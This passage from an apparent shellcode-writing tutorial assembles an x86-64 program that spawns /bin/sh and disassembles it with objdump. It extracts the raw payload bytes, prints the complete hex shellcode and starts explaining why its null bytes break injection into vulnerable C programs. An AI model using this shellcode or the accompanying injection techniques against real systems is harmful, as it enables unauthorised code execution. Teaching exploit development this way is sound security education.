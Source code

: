 ```sh
$ nasm -f elf64 -o basic_shell.o basic_shell.asm

$ ld -o basic_shell basic_shell.o

$ ./basic_shell
$ ls
README.md  basic_shell  basic_shell.asm  basic_shell.o
$ whoami
nihaal
$ echo 1
1
$
```

As you can see, our shellcode has given us a working shell. We can use [objdump](https://linux.die.net/man/1/objdump) to view our code and its corresponding hexadecimal byte values.

```sh
$ objdump -D basic_shell -M intel

basic_shell:     file format elf64-x86-64


Disassembly of section .text:

0000000000401000 <_start>:
  401000:       b8 3b 00 00 00          mov    eax,0x3b
  401005:       bb 00 00 00 00          mov    ebx,0x0
  40100a:       53                      push   rbx
  40100b:       48 bb 2f 62 69 6e 2f    movabs rbx,0x68732f6e69622f
  401012:       73 68 00
  401015:       53                      push   rbx
  401016:       48 89 e7                mov    rdi,rsp
  401019:       be 00 00 00 00          mov    esi,0x0
  40101e:       ba 00 00 00 00          mov    edx,0x0
  401023:       0f 05                   syscall
```

In order to extract the shellcode itself, we need to only print out the hexadecimal bytes themselves. There is a quick trick that we can use in order to do this.
```sh
$ for i in $(objdump -m i386:x86-64 -D basic_shell |grep "^ " |cut -f2); do printf $i; done; echo
b83b000000bb000000005348bb2f62696e2f736800534889e7be00000000ba000000000f05
```

Note that this trick usually only works for 64-bit machines. If you're trying to create 32-bit shellcode, you'll have more luck with this command instead: `for i in $(objdump -d [program] |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo`

## Bad Characters

We have figured out that using `b83b000000bb000000005348bb2f62696e2f736800534889e7be00000000ba000000000f05` as our shellcode will give us a shell. However, there is a slight problem here: the payload contains lots of `00` bytes. If we attempt to inject this into a vulnerable C program, then it is quite likely that the payload gets cut off after the first `00` byte appears because C interprets these NULL characters as string terminators.
